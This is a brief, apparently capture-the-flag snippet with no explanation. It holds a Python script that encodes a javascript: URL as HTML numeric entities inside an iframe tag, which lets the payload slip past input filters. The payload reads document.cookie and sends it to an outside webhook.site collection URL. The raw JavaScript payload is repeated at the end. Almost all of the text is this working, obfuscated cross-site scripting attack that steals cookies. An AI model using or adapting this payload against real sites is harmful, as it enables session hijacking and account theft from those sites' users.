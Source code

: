 https://webhook.site/91b8bafa-4ceb-4e1d-908e-04a5c87c4b2d

content = "javascript:fetch('https://webhook.site/91b8bafa-4ceb-4e1d-908e-04a5c87c4b2d?flag='+document.cookie).then((response) => {return response.json();}).catch((error) => {console.log('no');})"
result = "<iframe src=&#"
for i in content:
    result+=str(ord(i))
    result+=";&#"
result = result[:-3]+"><iframe>"
print(result)




javascript:
    fetch('https://webhook.site/91b8bafa-4ceb-4e1d-908e-04a5c87c4b2d?flag='+document.cookie).then((response) => 
           {return response.json();}).catch((error) => 
           {console.log('no');})